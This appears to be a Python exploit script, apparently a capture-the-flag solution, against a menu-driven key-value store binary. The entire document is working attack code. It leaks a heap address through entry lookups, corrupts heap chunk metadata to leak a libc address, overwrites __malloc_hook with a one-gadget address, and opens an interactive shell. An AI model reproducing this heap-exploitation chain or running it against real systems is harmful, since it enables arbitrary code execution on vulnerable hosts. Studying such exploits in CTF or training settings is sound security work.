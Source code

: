 ```python
def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def choice(idx):
    sla("> ",str(idx))

def add_entry(name,size,value):
    choice(1)
    sa(":",name)
    sla(":",str(size))
    sa(":",value)

def edit_entry(name,value):
    choice(3)
    sa(":",name)
    sa(":",value)

def print_entry(name):
    choice(2)
    sa(":",name)

def getcheck(idx):
    res=''
    payloads=os.popen("python more.py "+str(idx)).read().strip('\n')
    payloads=payloads.split(' + ')
    for i in payloads:
        res+=p8(int(i))
    return res

if __name__ == '__main__':
    thename='\xa1\xf8\xe6\xa9'
    a=[]
    for i in range(32):
        a.append(getcheck(12+i))
        add_entry(a[i],0x10,'123')
    add_entry(thename,0x10,'fuckme')
    res=0
    for i in range(32):
        print_entry(a[i])
        if "No such entry!" in rl():
            continue
        res+=1<<(12+i)
    heap_addr=res+0x500000000000
    lg("heap addr",heap_addr)
    pl=p64(0)*1+p64(heap_addr+0xc30)+p64(heap_addr+0xd38+(0x1000<<47))
    add_entry(getcheck(5),0x80,pl)
    edit_entry(thename,p64(0x2d1))
    add_entry('1234',0x300,'1234')
    print_entry(thename)
    ru("Value: ")
    rv(16)
    libc_addr=raddr()-0x3c4e18
    lg("libc_addr",libc_addr)
    libc.address=libc_addr 
    pl=p64(0x21)+'1234\x00\x00\x00\x00'+p64(0)*4+p64(heap_addr+0xd40)+p64(libc.symbols['__malloc_hook']+(0x8<<48))
    edit_entry(thename,pl)
    edit_entry('1234',p64(libc.address+0xf1147))
    p.interactive()
```